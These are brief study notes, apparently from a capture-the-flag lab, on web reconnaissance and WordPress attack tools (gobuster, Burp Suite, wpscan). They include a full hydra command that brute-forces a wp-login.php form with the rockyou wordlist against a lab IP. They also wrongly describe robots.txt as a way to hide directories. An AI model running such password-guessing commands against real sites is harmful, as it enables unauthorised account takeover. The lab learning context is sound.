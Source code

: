 -gobuster https scan - skip TLS cert validation (-k)
-about robot.txt
-burpsuite bruteforce(cluster bomb for 2 veriable brutefoce)
-hydra to bruteforce web
-wp scans wordpress vulnerabilities

robot.txt is used to hide unwanted web directories from public 

___bruteforce using hydra___
hydra -l Elliot -P ~/Desktop/wordlist/rockyou.txt 10.10.136.215 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username"


